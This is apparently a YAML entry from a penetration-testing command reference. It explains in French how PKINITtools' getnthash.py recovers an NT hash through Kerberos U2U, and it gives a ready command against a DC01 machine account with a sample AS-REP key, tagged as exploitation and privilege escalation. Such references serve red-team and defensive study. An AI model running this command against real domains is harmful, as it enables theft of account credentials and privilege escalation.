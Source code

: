 ```yaml
---
description: |
  PKINIT getnthash.py demande un TGS pour vous-même en utilisant Kerberos U2U. Cela inclura le PAC qui à son tour contient le hachage NT que vous pouvez décrypter avec la clé AS-REP que vous avez obtenu à partir de votre demande TGT en utilisant gettgtpkinit.py de PKINIT. Utilisez le TGT de gettgtpkinit.py dans votre variable env KRB5CCNAME.

  Command Reference:

    Domain: test.local

    Host that you got the TGT from: DC01

    TGT from gettgtpkinit.py: out.ccache

    AS-REP key: 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773


command: |
  KRB5CCNAME=out.ccache python3 getnthash.py test.local/DC01\$ -key 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773
items:
  - TGT
services:
  - Kerberos
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/dirkjanm/PKINITtools
  - https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/
---
```

